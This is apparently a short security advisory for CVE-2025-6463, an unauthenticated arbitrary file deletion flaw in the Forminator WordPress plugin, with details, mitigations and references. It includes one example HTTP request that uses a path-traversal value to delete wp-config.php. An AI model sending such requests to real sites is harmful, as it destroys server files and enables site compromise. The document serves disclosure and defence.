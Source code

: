 # Forminator WordPress Plugin - Arbitrary File Deletion (CVE-2025-6463)

## Overview

A high-severity unauthenticated arbitrary file deletion vulnerability exists in the Forminator WordPress plugin. This flaw allows attackers to delete any file on the web server, including critical files such as `wp-config.php`.

## Vulnerability Details

- **CVE:** CVE-2025-6463
- **Type:** Arbitrary File Deletion
- **Authentication:** None (Unauthenticated)
- **Impact:** Deleting critical files can lead to Remote Code Execution (RCE) and full site compromise.

## Exploitation

Attackers send crafted HTTP requests to the plugin's file deletion endpoint. By manipulating the request, they can specify arbitrary files to delete on the server.

Example:

```http
POST /wp-admin/admin-ajax.php?action=forminator_delete_file HTTP/1.1
Host: vulnerable-site.com
Content-Type: application/x-www-form-urlencoded

file=../../../../wp-config.php
```

Deleting `wp-config.php` or other critical files can cause the site to malfunction or allow attackers to upload malicious files and achieve RCE.

## Mitigation

- Update the Forminator plugin to the latest patched version.
- Monitor and restrict access to sensitive endpoints.
- Implement Web Application Firewall (WAF) rules to detect and block arbitrary file deletion attempts.

## References

- [Wordfence Blog on Forminator Vulnerability](https://www.wordfence.com/blog/2025/07/600000-wordpress-sites-affected-by-arbitrary-file-deletion-vulnerability-in-forminator-wordpress-plugin/)
- [Official CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-6463)

